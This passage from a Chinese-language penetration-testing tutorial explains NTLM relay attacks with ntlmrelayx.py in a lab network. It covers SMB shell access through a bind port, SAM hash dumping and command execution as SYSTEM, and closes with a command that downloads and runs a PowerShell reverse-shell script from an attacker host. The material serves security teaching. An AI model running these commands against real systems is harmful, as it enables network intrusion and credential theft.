![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250530182829155-1396495143.png)

其中：（1）172.16.1.5 由于已启用 SMB 签名，因此针对该机器的攻击失败（虽然显示绑定端口 11000 已打开，但无法访问。）；（2）172.16.1.100 由于已禁用 SMB 签名，因此针对该机器的攻击成功，并且对应该机器的绑定端口也已在 11001 上打开；（3）172.16.1.200 虽然也已禁用 SMB 签名，但由于中继自身是被微软禁止的，因此攻击失败。

> 您无法将凭据从一台机器中继到同一台机器。中继攻击唯一有效的方式就是将凭据从一台机器中继到另一台机器。

由于 172.16.1.100 在 11001 上有一个绑定端口，因此我们可以使用 nc 与该端口进行交互。

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250530182825450-1893164942.png)

进入这个 shell 之后，我们可以发现，这其实是一个 SMB 客户端，通过这个客户端，我们便可以枚举当前账户在此机器上有权访问的共享文件夹了。

而此时恰好就发现了一个名为“share”的自定义共享文件夹，而其中又包含一个名为 new\_users.txt 的文件，这种文件在打靶时意味着里边很可能会包含着一些关键的信息。

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250530182824783-294599098.png)

#### **

4.2、命令用法二：本地管理员用户 + SAM 哈希转储

**

如果在上个示例中的 vcreed 用户恰好又是工作站 172.16.1.100 上的本地管理员，那又会发生什么情况呢？

与上一个示例中的操作一样，这里再次启动 ntlmrelayx.py，但这次删除 **\-i** 选项，以便它使用默认功能，即转储本地 SAM 哈希：

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250530182825817-691172304.png)

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250530182823999-1950187542.png)

可以看到，这次 ntlmrelayx 直接将 172.16.1.100 机器上的本地 SAM 文件中的用户哈希全部提取了出来。

#### **

4.3、命令用法三：本地管理员用户 + 命令执行 1

**

在 ntlmrelayx 命令上添加 **\-c** 选项可以允许我们在受害者主机上执行命令。而如果我们中继的账户恰好是本地管理员用户，那么该命令将以 SYSTEM 权限执行。

继续上个示例中场景，这次我们使用以下命令启动 ntlmrelayx 进行测试：

    ntlmrelayx.py -tf SMB_IPs.txt -smb2support -c 'whoami'
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250530182824897-1347258397.png)

可以看到，这次我们在 172.16.1.100 机器上是以 SYSTEM 权限执行的 whoami 命令。既然我们已经有了在受害机远程执行命令的能力，那现在就可以更进一步，直接获取受害者的 shell。

获取 shell 的方法有很多，但这里我们将使用 Nishang 脚本集合中的 Invoke-PowerShellTcp.ps1 去获得反向 shell，具体设置过程此处不再赘述，这里直接展示利用效果。

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250530182824391-79768963.png)

    ntlmrelayx.py -tf SMB_IPs.txt -smb2support -c "powershell.exe -c iex(new-object net.webclient).downloadstring('http://172.16.1.30:8000/Invoke-PowerShellTcp443.ps1')" 
    